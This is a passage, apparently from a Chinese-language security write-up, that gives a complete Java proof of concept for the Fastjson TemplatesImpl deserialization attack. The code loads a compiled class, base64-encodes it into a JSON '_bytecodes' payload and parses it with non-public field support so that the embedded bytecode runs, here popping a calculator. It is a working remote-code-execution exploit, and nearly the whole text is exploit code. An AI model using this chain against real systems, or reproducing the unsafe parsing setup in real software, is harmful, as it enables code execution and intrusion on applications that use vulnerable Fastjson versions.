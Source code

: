 完整的POC如下，就是将构造的`json`进行了`parseObject`操作，直接触发计算器的弹出。

```
package SpringJDNI;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class TemplatesImplPOC {
    public static String readClass(String cls) {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy( new FileInputStream( new File( cls ) ), bos );
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String( bos.toByteArray() );
    }

    public static void test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty( "file.separator" );
        final String evilClassPath = System.getProperty( "user.dir" ) + "\\target\\classes\\SpringJDNI\\Calc.class";
        String evilCode = readClass( evilClassPath );
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{\"@type\":\"" + NASTY_CLASS +"\",\"_bytecodes\":[\"" + evilCode + "\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }," +"\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
        System.out.println( text1 );
        
		// _bytecodes 是Templateslmpl的私有属性，因此在parseObjecct的时候需要设置Feature.SupportNonPublicField 否则 _bytecodes 无法进行序列化
        Object obj = JSON.parseObject( text1, Object.class, config, Feature.SupportNonPublicField );
    }

    public static void main(String args[]) {
        try {
            test_autoTypeDeny();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
